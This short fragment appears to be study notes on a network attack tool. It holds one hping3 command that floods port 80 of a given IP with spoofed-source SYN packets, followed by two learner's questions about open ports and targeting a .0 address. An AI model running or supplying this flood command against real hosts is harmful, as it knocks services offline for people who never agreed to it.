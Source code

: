 * `sudo hping3 -c 10000 -d 120 -S -w 64 -p 80 --flood --rand-source 192.236.1.1`
    * does the port have to be an open port found with nmap?
    * what happens if use 192.236.1.0??